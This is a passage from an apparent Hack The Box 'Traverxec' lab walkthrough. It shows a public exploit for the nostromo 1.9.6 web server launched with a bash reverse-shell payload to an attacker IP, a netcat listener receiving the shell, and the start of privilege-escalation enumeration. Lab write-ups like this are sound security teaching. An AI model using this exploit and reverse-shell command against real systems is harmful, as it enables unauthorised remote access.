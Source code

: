 ```bash
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/

HTTP/1.1 200 OK
Date: Mon, 15 Jun 2020 12:17:05 GMT
Server: nostromo 1.9.6
Connection: close


www-data
luc@kali:~/HTB/Traverxec$ python 47837.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1"'
```

```bash
luc@kali:~/HTB/Traverxec$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:48954.
bash: cannot set terminal process group (457): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege escalation

Nostromo is installed in `/var/nostromo`

```bash
www-data@traverxec:/var/nostromo$ ls -R                                                                                                                                                                                             [34/34]
.:
conf  htdocs  icons  logs

./conf:
mimes  nhttpd.conf
...
```

This `nhttpd.conf` file sounds interesting
